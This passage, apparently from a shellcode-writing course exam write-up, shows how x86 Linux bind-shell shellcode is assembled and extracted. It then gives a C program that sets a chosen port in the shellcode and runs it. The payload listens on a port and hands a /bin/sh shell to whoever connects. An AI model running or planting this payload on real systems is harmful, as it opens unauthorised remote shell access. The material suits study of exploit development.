 **_Getting the Shellcode_**

```bash
root@kali:~/courses/slae/exam# nasm -f elf32 -o assignment1.o assignment1.nasm
root@kali:~/courses/slae/exam# ld -o assignment1 assignment1.o

root@kali:~/courses/slae/exam# objdump -d ./assignment1|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xdb\x31\xc9\x31\xd2\xf7\xe3\xb3\x02\xb1\x01\xb2\x06\x66\xb8\x67\x01\xcd
\x80\x31\xd2\x89\xc3\x52\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\xb2\x10\x66\xb8
\x69\x01\xcd\x80\x31\xc9\x66\xb8\x6b\x01\xcd\x80\x31\xf6\x31\xd2\x66\xb8\x6c
\x01\xcd\x80\x89\xc3\xb1\x03\xfe\xc9\xf7\xe2\xb0\x3f\xcd\x80\xfe\xc1\xe2\xf4
\x31\xc9\x66\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x53\x89
\xe1\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80"
```


**_shellcode.c_**

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <netinet/in.h>

#define PORT_OFFSET 27

int main(int argc, char* argv[]) {
    unsigned char shellcode[] = \
    "\x31\xdb\x31\xc9\x31\xd2\xf7\xe3\xb3\x02\xb1\x01\xb2\x06\x66\xb8\x67\x01
    \xcd\x80\x31\xd2\x89\xc3\x52\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\xb2\x10
    \x66\xb8\x69\x01\xcd\x80\x31\xc9\x66\xb8\x6b\x01\xcd\x80\x31\xf6\x31\xd2
    \x66\xb8\x6c\x01\xcd\x80\x89\xc3\xb1\x03\xfe\xc9\xf7\xe2\xb0\x3f\xcd\x80
    \xfe\xc1\xe2\xf4\x31\xc9\x66\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e
    \x89\xe3\x51\x53\x89\xe1\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80";

    if (argc > 1) {
        unsigned short porti = htons(atoi(argv[1]));
        memcpy(&shellcode[PORT_OFFSET], &porti, 2);
    } else {
        printf("Please enter a port number!\n");
        printf("Usage: %s <port>\n\n", argv[0]);
        return -1;
    }

    printf("Shellcode Length:  %d\n", strlen(shellcode));

    int (*ret)() = (int(*)())shellcode;

    ret();
}
```
